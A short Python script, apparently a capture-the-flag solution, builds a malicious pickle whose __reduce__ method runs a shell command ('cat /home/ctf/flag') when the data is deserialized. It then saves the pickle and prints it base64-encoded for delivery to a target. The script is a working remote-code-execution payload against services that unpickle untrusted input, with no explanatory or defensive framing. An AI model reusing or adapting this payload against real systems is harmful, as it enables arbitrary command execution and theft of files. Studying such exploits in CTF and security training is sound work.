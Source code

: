 import pickle
import subprocess
import base64

class Pickle:
    def __reduce__(self):
        return subprocess.check_output,(['cat','/home/ctf/flag'],)
    
malicious_pickle=pickle.dumps(Pickle())

with open('malicious_pickle','wb') as f:
    f.write(malicious_pickle)

encoded=base64.b64encode(malicious_pickle).decode()
print(encoded)
